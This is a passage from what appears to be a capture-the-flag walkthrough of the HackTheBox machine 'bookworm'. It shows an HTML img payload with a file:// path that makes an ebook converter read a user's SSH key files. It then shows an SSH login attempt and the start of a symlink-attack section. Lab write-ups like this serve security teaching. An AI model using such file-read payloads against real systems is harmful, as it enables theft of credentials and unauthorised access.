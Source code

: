 I got a priv8 key let's we login as `neil` user . Let's we login 

```
┌──(kali㉿kali)-[~/Downloads/convert]
└─$ ssh -i .id_ed25519 neil@bookworm.htb
The authenticity of host 'bookworm.htb (10.10.11.215)' can't be established.
ED25519 key fingerprint is SHA256:AgjA6QZO27xdMZeO8OuusxsDQQ6eD0OCl71bDcSc8u8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'bookworm.htb' (ED25519) to the list of known hosts.
neil@bookworm.htb's password: 
```

There still need a password to login . Because on `/home/neil/.ssh` not have authorized_keys so we need upload neil copy public key and creating `authorized_keys` then paste the neil public key . To grab public key used same way at the above just append `.pub`

The payload is : `<img src="file:///home/neil/.ssh/id_ed25519.pub">`

```
┌──(kali㉿kali)-[~/Downloads/test]
└─$ unzip 'convert(1).epub'

Archive:  convert(1).epub
 extracting: mimetype                
   creating: META-INF/
  inflating: META-INF/container.xml  
  inflating: id_ed25519.pub          
  inflating: toc.ncx                 
  inflating: stylesheet.css          
  inflating: page_styles.css         
  inflating: 35b066b1-0f78-48cd-8c65-43f9c82658c3.html  
  inflating: titlepage.xhtml         
  inflating: cover_image.jpg         
  inflating: content.opf 
  ```

```
┌──(kali㉿kali)-[~/Downloads/test]
└─$ cat id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOpyBwE8Hb6qpuvMcEf76fRrTFuenTzxz+eP+Nw5tMZ/ neil@bookworm
```

## Symlink Attacks


# Symlink on ebookconverter

```
frank@bookworm:/home/neil/converter/calibre$ echo 'test' > /tmp/test.txt
frank@bookworm:/home/neil/converter/calibre$ ./ebook-convert /tmp/test.txt /tmp/test2.txt
1% Converting input to HTML...
InputFormatPlugin: TXT Input running
on /tmp/test.txt
Language not specified
Creator not specified
Building file list...
Normalizing filename cases
Rewriting HTML links
flow is too short, not running heuristics
Forcing index.html into XHTML namespace
34% Running transforms on e-book...
Merging user specified metadata...
Detecting structure...
Auto generated TOC with 0 entries.
Flattening CSS and remapping font sizes...
```